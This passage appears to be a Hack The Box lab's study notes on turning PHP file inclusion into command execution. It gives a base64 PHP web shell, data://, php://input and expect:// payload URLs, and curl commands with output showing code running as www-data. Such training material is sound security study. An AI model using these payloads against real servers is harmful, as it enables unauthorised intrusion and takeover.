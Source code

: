 ### Exploit with data wrapper

- if *allow_rul_include* enabled, by using the data wrapper to include external data, including PHP code, we can pass it base64 encoded strings with **text/plain;base64** 

```sh
thnwht@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

```url
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```
- or use with curl
```sh
thnwht@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Exploit with input wrapper

- input wrapper can be used to include external input and execute PHP code
- we can pass our input to the input wrapper as a POST request's data
- the vulnerable parameter must accept POST requests for this attack to work
- input wrapper also depends on the **allow_url_include** setting

```sh
thnwht@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
           
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Exploit with expect wrapper

- [Expect Wrapper](https://www.php.net/manual/en/wrappers.expect.php) - allows to directly run commands through URL streams
- works similar to the web shells
- expect is an external wrapper and needs to be installed manually 
- to know this extension is installed or not, same as allow_url_include, search in the config file as `extension=expect`

```sh
thnwht@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Remote File Inclusion (RFI)

